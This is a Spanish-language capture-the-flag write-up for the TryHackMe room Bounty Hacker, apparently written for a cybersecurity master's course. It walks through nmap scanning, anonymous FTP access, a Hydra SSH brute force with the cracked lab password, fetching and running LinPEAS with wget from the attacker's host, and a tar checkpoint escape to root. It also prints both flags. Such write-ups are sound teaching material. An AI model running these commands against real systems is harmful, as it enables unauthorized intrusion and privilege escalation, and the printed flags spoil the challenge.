






<h1 align="center">🤠 Bounty Hacker — Writeup Completo</h1>

<p align="center">
  
  
  
  
  
</p>

<p align="center">
  <i>Memoria de operación ofensiva sobre la room Bounty Hacker. Reconocimiento de red marcado por caídas de conectividad, abuso de acceso FTP anónimo (descubrimiento de diccionarios internos), dominación de SSH con fuerza bruta en Hydra y escalada de privilegios burlando la restricción local al automatizar con LinPEAS la lectura de binarios SUID (tar).</i>
</p>

---

> [!WARNING]
> **Aviso Legal.** Este writeup ha sido elaborado exclusivamente con fines académicos en el contexto del **Máster en Ciberseguridad**. Las técnicas documentadas se han aplicado únicamente sobre infraestructura de TryHackMe bajo sus condiciones explícitas de uso. El autor declina toda responsabilidad por usos indebidos de la información recogida.

---

## 📑 Índice

1. [Resumen Ejecutivo](#-1-resumen-ejecutivo)
2. [Vectores de Ataque](#-2-vectores-de-ataque-owasp-y-mitre)
3. [Herramientas Utilizadas](#-3-herramientas-utilizadas)
4. [Fase 1 — La Base Inestable (Reconocimiento Nmap)](#-4-fase-1--la-base-inestable-reconocimiento-nmap)
5. [Fase 2 — Caza Web y Cierre Abrupto (Gobuster)](#-5-fase-2--caza-web-y-cierre-abrupto-gobuster)
6. [Fase 3 — Acceso Anonymous (FTP)](#-6-fase-3--acceso-anonymous-ftp)
7. [Fase 4 — El Regalo de la Tripulación (Extracción Documental)](#-7-fase-4--el-regalo-de-la-tripulación-extracción-documental)
8. [Fase 5 — Estreno Manual de Fuerza Bruta (Hydra SSH)](#-8-fase-5--estreno-manual-de-fuerza-bruta-hydra-ssh)
9. [Fase 6 — Intrusión y Flag de Usuario](#-9-fase-6--intrusión-y-flag-de-usuario)
10. [Fase 7 — Burlas y Subterfugios (Alternativas a curl)](#-10-fase-7--burlas-y-subterfugios-alternativas-a-curl)
11. [Fase 8 — Tar SUID y Flag Final](#-11-fase-8--tar-suid-y-flag-final)
12. [Flags Obtenidas](#-12-flags-obtenidas)
13. [Conclusión](#-13-conclusión)

---

## 📌 1. Resumen Ejecutivo

La room **Bounty Hacker** (Easy) de TryHackMe propone un escenario de auditoría progresiva. Iniciamos con un reconocimiento que, debido a una constante inestabilidad de la máquina remota, nos fuerza a pivotar del asalto web al servidor FTP. Aprovechando una mala configuración de usuarios anónimos extraemos ficheros texto que nos revelan un usuario real y una *wordlist* configurada a medida por la propia víctima. Aplicamos un ataque de diccionario utilizando *Hydra* sobre el entorno SSH, obteniendo una intrusión válida para capturar la *user flag*. Tras ver frustrados métodos directos por las herramientas nativas del host (`curl`), la escalada pasa por usar un servidor local para inyectar *LinPEAS*, obteniendo el avistamiento de un binario SUID `tar` defectuoso, con el que ejecutamos un escape desde *GTFOBins* obteniendo finalmente una terminal como superusuario.

---

## 🎯 2. Vectores de Ataque (OWASP y MITRE)

- [x] **Security Misconfiguration:** Servicio FTP expuesto con tolerancia total en inicios de sesión anónimos, facilitando el acceso a listas temporales de los empleados. *(OWASP A05:2021)*
- [x] **Identificación Rota:** Existencia de notas privadas y un catálogo de contraseñas plano compartido remotamente a la vista de todo oyente no autorizado. *(OWASP A07:2021)*
- [x] **Brute Force (Fuerza Bruta):** Implementación de fuerza bruta paramétrica sobre SSH mediante `Hydra` valiéndose de la filtración interna para no generar bloqueos y validar credenciales. *(MITRE T1110)*
- [x] **Privilege Escalation (SUID Abuse):** Abuso a lo largo de un vector nativo (Embalador `/bin/tar`) configurado al bit SUID elástico capaz de invocar `/bin/sh`. *(MITRE T1548.001)*

---

## 🛠️ 3. Herramientas Utilizadas

| Herramienta | Propósito |
|:---|:---|
| `nmap` | Auditoría, listado de *ports*, versiones base y firmas SO. |
| `gobuster` | Fuzzing agresivo a nivel web (descartado en ejecución final). |
| `ftp` y `get` | Software nativo cliente para interactuar en consolas expuestas a *anonymous*. |
| `hydra` | Gestor que domina nuestro ataque emparejando automáticamente credenciales filtradas. |
| `linpeas.sh` | Shellscript recolector. El automatizador que barre el equipo infectado Línux. |
| `python3 http / wget` | Entorno emulador local y receptor para transportar datos hacia la remota. |
| `GTFOBins` | Refuerzo documental online especializado en la mala praxis de permisos de ficheros. |

---

## 💻 4. Fase 1 — La Base Inestable (Reconocimiento Nmap)

Todo empieza del modo más sistemático posible. Una vez arranco la máquina en TryHackMe, procedo a registrar y copiar la IP primaria, siendo en mi inicio la `10.130.188.22`. Preparo un reconocimiento con `nmap` solicitando a todos los puertos integrales, inyectando scripts básicos de detección de SO y volcando en un formato `oN` lo extraído sobre un texto de trabajo:

```bash
nmap -p- -T4 -sV -A -Pn -v -oN ./recon-bounty.txt 10.130.188.22
```

Tal y como he documentado a continuación, el binario arroja actividad constante a lo largo de 10 minutos analizando el 100% perimetral.

<p align="center">
  
</p>

Haciendo un `cat recon-bounty.txt | grep open`, el reporte es claro y nos devuelve tres puertos pilares del sistema Línux.

- **21/tcp:** Servidor `vsftpd 3.0.5`
- **22/tcp:** Servidor seguro `OpenSSH 8.2p1`
- **80/tcp:** Sitio web HTTP `Apache httpd 2.4.41`

<p align="center">
  
</p>

Reflexionando en retrospectiva tras haber leído reportes y de finalizar la caja: **si hubiera lanzado la ejecución de nmap con el modificador `-sC` (scripts por defecto), éste muy probablemente me habría "chivado" desde el minuto cero el acceso de `anonymous` válido para el servidor FTP**, ahorrándome quebraderos de cabeza. Es una valiosa lección documental.

---

## 🌐 5. Fase 2 — Caza Web y Cierre Abrupto (Gobuster)

Decido acudir en orden de lo más general a lo interno: el puerto `80`. He accedido al servidor web visualizando con asombro un *lore* bastante puro extraído de la sala *Cowboy Bebop*. 

<p align="center">
  
</p>

Inspeccionando y revisando el propio código fuente (`Ctrl + U`), detallo y agendo a mi libreta personal menciones curiosas como: *Spike, Jet, Ed, Faye, Edward, Ein*. Podían ser llaves o usuarios futuros.

<p align="center">
  
</p>

Llegado a tope con la visual, decidí que era imperativo lanzar mi ataque de fuerza en *fuzzing* de directorios recurriendo a `gobuster`. 

Aquí vino mi primer martirio de la sala: mi terminal empezó a frenarse. La máquina al hacer `ping` perdía repentinamente más de la mitad de sus paquetes de red. Por más que intentaba seguir, me veía forzado de modo frustrante a reiniciarla hasta en tres ocasiones dispares por problemas de conexión. Esta tortura en red se evidencia mediante mi diagnóstico temporal probando que el servidor se iba literalmente a negro.

> *(Nota: Este desastre y las consiguientes iteraciones provocaron el cambio de IPs visibles a lo largo de las siguientes fotos documentales del proyecto, un mal real en el trabajo de THM).*

<p align="center">
  
</p>

---

## 📂 6. Fase 3 — Acceso Anonymous (FTP)

Cambiando por completo el enfoque y al no encontrar absolutamente nada navegando en las webs, intento acceder al servidor **FTP**.

Mi plan consistió en probar una serie de nombres de usuario creyendo que la seguridad nos repeliría. Sin embargo, al percatarme del propio mensaje nativo al loguear, vi la pista de que este admitiría roles anónimos. Pruebo por tanto a incrustarle literalmente la cuenta *anonymous*, pidiéndome una constraseña inexistente y dejándome instantáneamente listar y observar el directorio total.

Hubo premio y dos archivos asomaron bajo la respuesta del `ls`.

<p align="center">
  
</p>

Dentro ya del espacio oficial, utilizo la orden del servicio local `get` para sustraerlos en copia íntegra hacia mi propio panel de comandos en ruta local en aras de someterlos a examen. Me salgo con `exit` completando la recolección.

<p align="center">
  
</p>

---

## 📜 7. Fase 4 — El Regalo de la Tripulación (Extracción Documental)

Una vez resguardado y habiendo hecho `ls -la` para saber que eran parte de mi entorno temporal; hago uso un sencillo `cat` en mi máquina auditora contra ellos.

Empiezo leyendo el llamado `task.txt`. Trata sobre una serie de órdenes sobre proteger a otro personaje y viajar hacia la luna (muy propio de Cowboy Bebop). Lo remarcablemente vital es percatarnos cómo finaliza cerrando sus notas con un contundente `-lin`. Esto me da el estallido exacto revelando quién es la mano redactora en la máquina y de quién es el usuario.

**Ya tenemos usuario de intrusión real verificado: `lin`**

<p align="center">
  
</p>

Por ende arranco sobre el segundo, `locks.txt`. Un "candado". Su contenido, no obstante, no podía ser más generoso. Un formato íntegramente en texto plano reuniendo más de una veintena de mezclas con mayúsculas y caracteres de la misma oración raíz. 

Las contraseñas de "Lin" y su tropa, las cuales servirían gloriosas y por fin listas para un asalto total por pura fuerza bruta e impactar de lleno su servicio SSH.

<p align="center">
  
</p>

---

## 🔐 8. Fase 5 — Estreno Manual de Fuerza Bruta (Hydra SSH)

Una herramienta increíblemente vital como recurso de fuerza de la que dispongo en bloque dentro de Kali y que estaba ansioso por emplear formalmente es **Hydra**. 

He utilizado el comando base conjugándolo de un tirón para obtención de puerta grande, aplicando el usuario individualizado (`-l lin`), integrándole a modo de password generalizada el fichero extraído (`-P ./locks.txt`), para chocar contra la IP del momento (ahora la *10.129.153.35*) orientando la fuerza de sus cuatro subprocesos iterativos sobre el servicio seguro base: `ssh`. 

```bash
hydra -l lin -P ./locks.txt -t 4 -V -f 10.129.153.35 ssh
```

El resultado visual es arrollador. Al instante se cruzan las banderas en Hydra rebotando en un fondo coloreado reportando un "*Valid pair found*". ¡Match exitoso! La cuenta por SSH sería abierta y disponible con las credenciales: `lin:RedDr4gonSynd1cat3`

<p align="center">
  
</p>

---

## 🏳️ 9. Fase 6 — Intrusión y Flag de Usuario

A continuación solo me restaba iniciar una sesión formal en todo sentido, emparejando la IP, su credencial descifrada y nuestra identidad validada en `lin` arrojándolo al puerto SSH (`-p 22`).

Todo marchó impecablemente, dando acceso hacia la raíz de `Desktop` de este mismo. Listando lo que Lin tenía en su Home se encuentra expuesto sin compasiones el bloque o archivo denominado `user.txt`.

<p align="center">
  
</p>

He procedido entonces con un simple `cat` de confirmación oficial recatando y obteniendo al fin el flag del mismo, la cual corroboro de cara a la propia plataforma y asumiendo una importante victoria inicial de escalón en mi trayecto.

<p align="center">
  
</p>

---

## ⚡ 10. Fase 7 — Burlas y Subterfugios (Alternativas a curl)

Lo siguiente forzoso es tener que localizar y obtener yo mismo de mis propias manos idéntico premio, pero esta vez a manos netas del nivel máximo: **Usuario ROOT**.

Teniendo acceso, he intentado en primera instancia proceder ejecutando `sudo -l`, con intenciones meramente analíticas de listar si este simple usuario retenía binarios escalables como superusuario maestro. Sin embargo me resultó ineficaz y restrigido por sus limitaciones en *pass*/credenciales para el escalado listado.

Decidí como norma vital no perder minutos e ir por los atajos pesados, y eso significa utilizar enumeración por software usando `linpeas.sh`. 

Lo habitual o mi primera opción hubiese sido tirar el comando incrustado nativo desde internet que baja todo y lo dispara: *(curl -L https://github.com[...]*). **Pero... `CURL` no se encontraba instalado ni disponible para mis carentes permisos como usuario Lin, limitando del todo mi táctica de acceso exterior por comandos rápidos.**

Ante tales imposiciones y no rindiendo armas, ideé una burla natural local y lógica: Albergándolo como atacante.
- Primero, levantar temporalmente y descargar el **repositorio maestro en Kali sobre `/tmp`**; 
- Luego invocar localmente `python3 -m http.server 80`. 

<p align="center">
  
</p>

Acto seguido me desplazaba como usuario víctima de SSH de nuevo al directorio temporal natural `/tmp/` donde por carencia general dispondría siempre de aberturas y accesos de edición. Empleando este atajo usé el valioso comando que sí portaba el huésped (`wget`), trayéndolo con exultante resultado hacia mi ruta. Tan simple, como efectivo e interactivo:

```bash
wget http://192.168.132.194/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

<p align="center">
  
</p>

---

## 🏴 11. Fase 8 — Tar SUID y Flag Final

Tras observar el mastodóntico volumen de la enumeración de LinPEAS cargando resultados, dediqué esmero y un interés lógicamente total por la lista de posibles binarios colaterales vulnerables.

El script fue benévolo cantando en estruendo visual de rojo y amarillo la sección general "Files with Interesting Permissions" del sistema base. Destacaba sin dudas un binario mal configurado al contener explícito un bit **SUID**. Y este privilegio de creador se aplicaba al mismísimo descompresor `/bin/tar`.

<p align="center">
  
</p>

Con un fallo general detectado, lo siguiente sería escudriñar la extensa guía virtual maestra dispuesta al servicio base, mi queridísimo **GTFObins**. Al explorar la escalada sobre ese compresor específico, encuentro al instante en su página oficial que, para `tar`, la ejecución se desborda llamando al binario cediendo *checks* o emuladores en sus acciones `checkpoint`.

<p align="center">
  
</p>

Sabiendo esto lanzo en la terminal remota de mi victima la ejecución finalizada: 

```bash
sudo tar cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

El bypass surte efectos en microsegundos y la shell devuelve libre obediencia a mandos de administración bajo el prompt `#`.

Ejecuto con calma un simple `whoami` para verificar y validar mi supremacía como `root`, un `pwd` certificando la base remota, rebozando mi entorno nuevo en sus entrañas y finalizo dictaminando un `cd /root` en la búsqueda formal y literal del archivo antónimo al ya conseguido, y aquí yacía: `root.txt`. El tesoro general. 

Hacer un `cat` expone el preciado valor: `THM{80UN7Y_h4cK3r}` y pone fin al asedio. PERFECTO.

<p align="center">
  
</p>

Con la máquina completamente comprometida bajo usuario root y ambas banderas aseguradas en nuestra terminal, retorno a la consola de la plataforma interactiva TryHackMe. Ingreso formalmente los hashes, corroborando oficialmente la sala como superada al 100%. Misión cumplida con honores.

<p align="center">
  
</p>

---

## 🚩 12. Flags Obtenidas

| Nivel Operativo | Hash Visual Validado | Ruta de Almacenaje Base |
|:----:|:-----|:-----|
| 🏳️ **Usuario (User)** | `THM{CR1M3_SyNd1C4T3}` | `/home/lin/Desktop/user.txt` |
| 🏴 **Sistema (Root)** | `THM{80UN7Y_h4cK3r}` | `/root/root.txt` |

---

## ✅ 13. Conclusión

He finalizado con absoluto éxito esta room y lo asumo sumando una gratitud total por las lecciones valiosas extraídas en ella. 

El primer fallo radica en la deficiente disposición del hospedaje del FTP por el administrador de red. Esta simple rotura facilitó un robo pasivo que exponía no solo el *nickname* de uno de los suyos sino el brutal "candado" virtual convertido en mi llave para reventar el servidor de capa segura (`locks.txt`).

Y una meta cumplida y lograda para con mi experiencia general: **He aprendido el uso de Hydra en fuerza bruta en un marco y escenario loable y absolutamente práctico**, destripando barreras automatizando la red y afianzando una incursión letal bajo credenciales sólidas filtradas. Es un aprendizaje contundente que solidifica el conocimiento en post de enumerar permisos y en cómo un ineficiente `SUID` acaba hundiendo la integridad global posibilitando un abanico impetuoso como el de `GTFOBins` validado sobre el entorno más nativo inimaginable.

### 📚 Bibliografía y Referencias

- [TryHackMe — Bounty Hacker](https://tryhackme.com/room/cowboyhacker)
- [GTFOBins — Tar Exploitation SUID](https://gtfobins.github.io/gtfobins/tar/#suid)
- [Hydra THC Documentation / Tools](https://github.com/vanhauser-thc/thc-hydra)
- [OWASP Top 10 Security Misconfigurations](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)

---

<hr>
<p align="center">
  <i>Writeup elaborado como parte del módulo de Hacking Ético — Máster en Ciberseguridad.</i>
</p>
